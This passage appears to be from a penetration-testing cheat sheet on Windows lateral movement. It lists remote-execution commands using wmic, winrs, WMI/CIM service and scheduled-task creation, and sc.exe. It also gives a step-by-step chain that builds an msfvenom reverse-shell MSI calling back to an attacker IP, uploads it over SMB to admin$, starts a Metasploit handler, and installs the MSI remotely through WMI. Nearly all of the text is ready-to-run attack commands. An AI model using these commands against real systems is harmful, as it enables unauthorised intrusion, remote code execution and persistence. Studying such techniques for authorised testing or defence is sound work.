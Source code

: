     ```
- Same process done with wmic.exe
  - `wmic.exe /user:<username> /password:<password> /node:<target> process call create "cmd.exe /c calc.exe"`
  - `winrs.exe -u:<username> -p:<password> -r:<target> cmd`
- Create Services Remotely with WMI
  - `Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{Name = "<service_name>";DisplayName = "<display_name>";PathName = "<service_path>";ServiceType = [byte]::Parse("16");StartMode = "Manual" }`
  - `$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '<service_name>'"`
  - `Invoke-CimMethod -InputObject $Service -MethodName StartService`
  - Stop and delete service
    ```PowerShell
    Invoke-CimMethod -InputObject $Service -MethodName StopService
    Invoke-CimMethod -InputObject $Service -MethodName Delete
    ```

**Creating Scheduled Tasks Remotely with WMI**
- ```PowerShell
  $Command = "<command>"
  $Args = "<arguments>"
  $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
  Register-ScheduledTask -CimSession $Session -Action $Action -User "<user>" -TaskName "<task_name>"
  Start-ScheduledTask -CimSession $Session -TaskName "<task_name>"
  Delete unscheduled task
  ```
- `Unregister-ScheduledTask -CimSession $Session -TaskName "<task_name>"`

**Example with WMI**
1. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f msi > myinstaller.msi`
2. `smbclient -c 'put myinstaller.msi' -U <username> -W <domain> '//<target_ip_or_hostname>/admin$/' <password>`
3. `msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST <attacker_ip>; set LPORT <attacker_port>; exploit"`
4. ```PowerShell
   $username = '<username>';
   $password = '<password>';
   $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
   $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
   $Opt = New-CimSessionOption -Protocol DCOM
   $Session = New-Cimsession -ComputerName <target_computer_name> -Credential $credential -SessionOption $Opt -ErrorAction Stop
   ```
5. `Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Path\to\your\installer.msi"; Options = ""; AllUsers = $false}`

### Remotely Creating Services Using sc
```Powershell
sc.exe \\TARGET create <service_name> binPath= "<command_to_execute>" start= auto
sc.exe \\TARGET start <service_name>
sc.exe \\TARGET stop <service_name>
sc.exe \\TARGET delete <service_name>
```
